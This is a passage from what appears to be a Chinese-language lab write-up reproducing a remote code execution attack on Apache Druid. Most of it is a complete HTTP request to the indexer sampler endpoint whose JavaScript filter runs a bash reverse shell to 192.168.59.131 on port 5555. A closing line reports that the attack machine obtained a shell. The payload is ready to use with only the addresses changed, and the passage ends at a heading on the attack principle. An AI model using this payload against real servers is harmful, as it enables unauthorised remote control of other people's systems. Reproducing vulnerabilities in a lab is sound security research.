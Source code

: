     ```http
    POST /druid/indexer/v1/sampler HTTP/1.1
    Host: 192.168.59.130:8888
    Accept: application/json, text/plain, */*
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Content-Type: application/json
    Content-Length: 1119
    Connection: close
    
    {
        "type": "index", 
        "spec": {
            "type": "index" ,
            "ioConfig": {
                "type": "index", 
                "inputSource": {
                    "type": "inline", 
                    "data": "{\"timestamp\":\"9999-9-9T00:00:00.000Z\"}"
                }, 
                "inputFormat": {
                    "type": "json", 
                    "keepNullColumns": true
                }
            }, 
            "dataSchema": {
                "dataSource": "sample", 
                "timestampSpec": {
                    "column": "timestamp", 
                    "format": "iso"
                }, 
                "dimensionsSpec": { }, 
                "transformSpec": {
                    "transforms": [ ], 
                    "filter": {
                        "type": "javascript", 
                        "dimension": "added", 
                        "function": "function(value) {java.lang.Runtime.getRuntime().exec('/bin/bash -c $@|bash 0 echo bash -i >&/dev/tcp/192.168.59.131/5555 0>&1')}", 
                        "": {
                            "enabled": true
                        }
                    }
                }
            }
        }
    }
    ```

  * 检查攻击机，攻击机已成功getshell
    ![image-20210819132608565](https://monkeydatabase.github.io/img/image-20210819132608565.png)

## 攻击原理
